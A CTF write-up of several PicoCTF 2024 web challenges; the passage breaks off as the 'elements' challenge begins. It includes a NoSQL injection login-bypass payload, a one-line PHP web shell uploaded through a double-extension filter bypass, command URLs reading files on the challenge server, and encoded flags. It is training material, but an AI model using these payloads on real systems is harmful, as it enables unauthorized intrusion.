 ```yaml
---
author: krill
published: true
article_header:
  type: cover
tags:
  - ctf
  - web
  - xs-leaks
  - xss
title: PicoCTF_2024 Web Writeup
---
```

<!--more-->

## Bookmarklet
![](/images/CTF/pico2024/web/chall1.png)

Visiting the challenge instance, you get the following . .
![](/images/CTF/pico2024/web/book1.png)
you can solve the challenge by simply copying the javascript code in the form and pasting it in the browser console.

The code basically decrypts the encrypted data stored in the `encryptedflag` variable using the key `picoctf` and alerts the result which should contain the decrypted flag on the screen.

![](/images/CTF/pico2024/web/js.png)

## WebDecode
![](/images/CTF/pico2024/web/chall2.png)

We get this page when we visit the challenge instance.
![](/images/CTF/pico2024/web/decode.png)

 Clicking on the about page
 ![](/images/CTF/pico2024/web/about.png)

Inspecting the page (`ctrl` + `u`), shows the flag encoded in base64

![](/images/CTF/pico2024/web/base64.png)
you can easily decode that using https://cyberchef.io/ or using the base64 tool on your linux terminal

```
➜ echo -n 'cGljb0NURnt3ZWJfc3VjYzNzc2Z1bGx5X2QzYzBkZWRfMDdiOTFjNzl9' | base64 -d
```


## IntroToBurp
![](/images/CTF/pico2024/web/chall3.png)

You get a registration form when you launch the challenge instance. 

Go ahead and create an account
![](/images/CTF/pico2024/web/register.png)

You get redirected to a dashboard where you are required to provide some form of `OTP` for `2fa` authentication. 

intercept the request with `burpsuite` and mangle the `otp` parameter - this should give you the flag. 
![](/images/CTF/pico2024/web/mangle.png)

## Unminify
![](/images/CTF/pico2024/web/chall4.png)

You can easily view the page source (`ctrl` + `u`) and search for the string `picoCTF{`, you should get the flag : )

## No Sql Injection
![](/images/CTF/pico2024/web/chall5.png)

Launching the instance, you are given a login page - from the name of the challenge, we can tell that we need to perform some form of `no-sql` injection. 

Using the payload below, I was able to bypass the user login

```
{"$ne":""}
```

Intercepting the request with `burpsuite` and sending to `repeater`, we get a response from the server containing a user detail which also includes the token which is the flag encoded in base64. 

![](/images/CTF/pico2024/web/nosql.png)

```
➜ echo -n "cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uX2EyZTBkOWVmfQ==" | base64 -d 
```


## Trickster
![](/images/CTF/pico2024/web/chall6.png)

We are given a page that allows us to upload files to the server 
![](/images/CTF/pico2024/web/upload.png)

Using `wapalyzer` we can check what the website was built with in order to know what language the payload should be in. 

![](/images/CTF/pico2024/web/wap.png)

we should be able to upload a php payload in order to get remote-code-execution on the server.

uploading the php file, I got the following error : ( 

![](/images/CTF/pico2024/web/error.png)

seems the filter put in place checks that the file contains `.png`, so I went ahead to create another file `file.png.php` with the following payload.

```php
PNG;

<?php system($_GET['cmd']); ?> 
```

This was successful and we should be able to access the payload by visiting `/uploads/file.png.php`

![](/images/CTF/pico2024/web/image.png)

the flag was stored in a `.txt` file in the web root directory.
```
atlas.picoctf.net:59649/uploads/file.png.php?cmd=ls -la ../
```

you can just read that : )

```
atlas.picoctf.net:59649/uploads/file.png.php?cmd=cat ../G4ZTCOJYMJSDS.txt
```

## elements
![](/images/CTF/pico2024/web/chal7.png)
This was a really fun and frustrating challenge. 

We start by downloading the source file and running the local instance with node.



